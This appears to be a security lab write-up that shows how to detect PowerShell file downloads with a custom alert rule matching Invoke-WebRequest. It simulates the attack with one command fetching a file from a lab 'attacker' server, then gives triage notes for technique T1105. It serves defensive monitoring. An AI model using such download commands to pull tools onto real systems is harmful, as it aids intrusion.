



# 🌐 Use Case: PowerShell Download Detection

## 🎯 Objective
Detect PowerShell-based file download activity.

---

## ⚔️ Attack Simulation

Command executed:
```powershell
powershell -Command "Invoke-WebRequest http://192.168.56.40/test.txt"
```



---

## 📄 Log Source

- Sysmon Event ID 1 (Process Creation)
- Command line captured



---

## 🔍 Detection Logic

- Base Rule: **92027**
- Custom Rule: **100501**

```xml
<rule id="100501" level="12">
  <if_sid>92027</if_sid>
  <match>Invoke-WebRequest</match>
  <description>Custom: PowerShell download detected</description>
</rule>
```

---

## 🚨 Alert Evidence



---

## 🧠 Analyst Triage

- **Command:** Invoke-WebRequest  
- **Destination:** attacker HTTP server  
- **Technique:** T1105 – Ingress Tool Transfer  
- **Severity:** High  
- **Verdict:** True Positive  

---

## 📚 Lessons Learned

- Monitoring command-line arguments is critical  
- Network activity via PowerShell is high-risk behavior  
